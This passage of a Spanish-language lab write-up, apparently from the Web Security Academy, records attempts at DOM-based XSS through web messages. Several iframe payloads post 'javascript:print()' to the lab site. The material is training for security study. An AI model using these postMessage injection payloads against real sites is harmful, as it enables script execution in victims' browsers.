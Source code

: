 ![](assets/2022-07-18-18-46-20.png)

Vuelvo a mirar el código y es que hay que poner https:
```js
<iframe src="https://exploit-0a9000100450093cc08a6661012f004a.web-security-academy.net/exploit" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

![](assets/2022-07-18-18-48-03.png)

:(  ⛔️⛔️⛔️⛔️ Que no se esté viendo nada en el fondo también es otro síntoma de que algo está mal

Llegados a este punto se me ocurre que o falta detrás del print() un ; o probar con el http: sin ser https

```js
<iframe src="https://exploit-0a9000100450093cc08a6661012f004a.web-security-academy.net/exploit" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
Me acabo de dar cuenta que es posible que la url sea la de mi sitio. Pero no entiendo porque aunque esté llamando a exploit no me hace el print...

```js
<iframe src="https://0a11000d04dc095fc0f3668200500090.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

![](assets/2022-07-18-18-52-25.png)
